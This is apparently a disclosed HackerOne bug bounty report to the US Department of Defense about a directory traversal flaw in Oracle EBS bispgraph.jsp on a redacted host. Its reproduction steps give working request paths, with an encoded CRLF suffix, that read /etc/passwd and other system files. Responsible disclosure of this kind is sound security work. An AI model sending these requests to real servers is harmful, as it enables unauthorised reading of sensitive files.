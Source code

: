 # Local File Read vulnerability on ██████████ [HtUS]

## Report Details
- **Report ID**: 1624670
- **URL**: https://hackerone.com/reports/1624670
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-07-04T14:58:59.599Z
- **Disclosed**: 2023-01-06T19:02:02.451Z

## Reporter
- **Username**: demon1c
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Kindly check screenshot ███████: In case if scope question. Because i picked this site from DOD website list under 'dod sites'. Lets move on to the bug now :)

## Summary:
Local File Include vulnerability on ███. Oracle Ebs Bispgrapgh is prone to a directory traversal vulnerability that can be exploited by remote attackers to access sensitive data on the server.

## Steps To Reproduce:
[add details for how we can reproduce the issue]

  1. to view /etc/passwd file visit https://██████/OA_HTML/bispgraph.jsp%0D%0A.js?ifn=passwd&ifl=/etc/
  2.  to view /etc/motd file visit https://██████████/OA_HTML/bispgraph.jsp%0D%0A.js?ifn=motd&ifl=/etc/
  3.  to view /etc/profile visit https://██████/OA_HTML/bispgraph.jsp%0D%0A.js?ifn=profile&ifl=/etc/
## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]

* █████:
* █████:
* https://web.cystack.net/vulnerability/cystack.remote.oracle_ebs_bispgrapgh_file_read

## Impact

An attacker could read local files on the web server that they would normally not have access to, such as the application source code or configuration files containing sensitive information on how the website is configured.

## Attachments
No attachments
